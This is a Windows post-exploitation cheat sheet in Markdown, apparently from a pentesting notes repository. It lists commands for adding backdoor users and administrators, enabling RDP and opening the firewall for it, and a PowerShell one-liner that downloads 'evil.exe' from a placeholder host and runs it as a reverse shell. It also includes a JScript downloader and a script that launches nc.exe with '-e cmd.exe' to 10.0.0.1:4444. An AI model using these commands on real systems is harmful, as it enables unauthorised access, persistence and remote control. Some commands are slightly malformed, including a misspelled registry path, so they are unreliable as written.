 # Windows

## users

Add user 
```
net user [username] [password] /ADD
```

Add user to domain 
```
net user [username] [password] /ADD /DOMAIN
```

Add user as admin
```
net localgroup administrators [username] /add
```

## RDP
- Enable RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

- Add firewall authorisation
    
	netsh.exe advfirewall firewall add rule name="Remote Desktop - User Mode (TCP-In)" dir=in action=allow program="%%SystemRoot%%\system32\svchost.exe" service="TermService" description="Inbound rule for the Remote Desktop service to allow RDP traffic. [TCP 3389] added by LogicDaemon's script" enable=yes profile=private,domain localport=3389 protocol=tcp

- Connect to windows RDP
```
rdesktop -g 95% -u user -p password 10.0.0.1 -r disk:share=/ftphome
```

## File Upload

- PowerShell download and execute
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile 
New-Object System.Net.WebClient.DownloadFile('http://x.x.x.x/evil.exe','evil.exe'); 
evil.exe x.x.x.x 443 -e cmd.exe
```

- VBS file upload
  - fu.js
```
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1"); 
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false); 
WinHttpReq.Send(); 
WScript.Echo(WinHttpReq.ResponseText); 
```
  - execute
```
cscript /nologo fu.js http://ip/bullshit > uploaded_file
```

## Change user
- userchange.ps1
```powershell
$secpasswd = ConvertTo-SecureString "passwordhere" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("usernamehere", $secpasswd)
$computer = "Hostnamehere"
\[System.Diagnostics.Process\]::Start("c:\temp\nc.exe","10.0.0.1 4444 -e cmd.exe",$mycreds.Username, $mycreds.Password, $computer)
```
- execute
```
powershell -ExecutionPolicy Bypass -File c:\temp\change_user.ps1
```

- run as other user
```
runas /user:domain\user cmd.exe
```

